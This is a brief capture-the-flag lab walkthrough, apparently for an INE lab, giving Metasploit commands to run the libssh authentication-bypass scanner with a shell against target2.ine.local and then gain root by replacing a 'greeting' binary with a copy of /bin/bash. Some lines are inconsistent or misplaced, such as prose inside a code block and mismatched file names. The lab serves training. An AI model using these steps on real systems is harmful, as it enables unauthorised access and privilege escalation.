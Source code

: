 ```bash
it's hidden on the main login of question 1
```

Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.

```bash
search libssh
use scanner/ssh/libssh_auth_bypass
set spawn_pty true
run
cat flag3
```

The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.

```bash
rm greeting
cp /bin/bash greetings
welcome
cat root
```